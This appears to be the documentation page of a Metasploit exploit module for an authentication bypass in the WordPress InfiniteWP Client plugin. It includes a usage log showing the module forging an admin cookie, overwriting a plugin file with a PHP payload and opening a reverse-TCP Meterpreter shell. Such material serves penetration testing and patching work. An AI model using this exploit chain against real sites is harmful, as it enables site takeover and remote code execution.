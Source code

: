 ## Introduction

This module exploits an authentication bypass in the WordPress
InfiniteWP Client plugin to log in as an administrator and execute
arbitrary PHP code. A valid administrator username is required.

## Setup

Download <https://downloads.wordpress.org/plugin/iwp-client.1.9.4.4.zip>
and follow <https://wordpress.org/plugins/iwp-client/#installation>.

## Targets

```
Id  Name
--  ----
0   InfiniteWP Client < 1.9.4.5
```

## Options

**PLUGIN_FILE**

Set this to a plugin file to insert the payload into, relative to the
plugins directory, which is normally `/wp-content/plugins`. The file
must exist and be writable by the web user. It will be overwritten.

## Usage

```
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Found version 1.9.4.4 in the custom file
[*] Bypassing auth for admin at http://127.0.0.1:8080/
[+] Successfully obtained cookie for admin
[*] Cookie: wordpress_37d007a56d816107ce5b52c10342db37=admin%7C1579485087%7CINVpiM6qkCHdJYwQ6NacqF266nGBG7I9sRz9jgeSYMl%7C16a01e62816ac417c021215bd344ec9fa7a8ff49125f949019fdc89623131ef5; wordpress_37d007a56d816107ce5b52c10342db37=admin%7C1579485087%7CINVpiM6qkCHdJYwQ6NacqF266nGBG7I9sRz9jgeSYMl%7C16a01e62816ac417c021215bd344ec9fa7a8ff49125f949019fdc89623131ef5; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%7C1579485087%7CINVpiM6qkCHdJYwQ6NacqF266nGBG7I9sRz9jgeSYMl%7C9c1dd6506b08207bd81ee38a4cf7c9a0260ff7bbf4aec52d1a8ebd32a4d2f47e; wordpress_sec_37d007a56d816107ce5b52c10342db37=admin%7C1579485087%7CG6fm34loHaQrpkXc8eFGFcGXdaagX1MetNPuZM4cgGr%7C7b6635d34187a7f931e9e101cf6868916329730829ece06be5a9d12ad9fc94f3; wordpress_sec_37d007a56d816107ce5b52c10342db37=admin%7C1579485087%7CG6fm34loHaQrpkXc8eFGFcGXdaagX1MetNPuZM4cgGr%7C7b6635d34187a7f931e9e101cf6868916329730829ece06be5a9d12ad9fc94f3; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%7C1579485087%7CG6fm34loHaQrpkXc8eFGFcGXdaagX1MetNPuZM4cgGr%7C9a91c6c80d74d0836ed69e55de3aab4a13e003f2004a982c0997cc46b8b80226;
[*] Editing payload into /wp-content/plugins/index.php
[*] Acquired a plugin edit nonce: 8586e26cd9
[*] Edited plugin file index.php
[+] Successfully edited payload into /wp-content/plugins/index.php
[*] Requesting payload at /wp-content/plugins/index.php
[*] Sending stage (38288 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:49273) at 2020-01-17 19:51:27 -0600

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 4d173f97f00b
OS          : Linux 4d173f97f00b 4.9.184-linuxkit #1 SMP Tue Jul 2 22:58:16 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
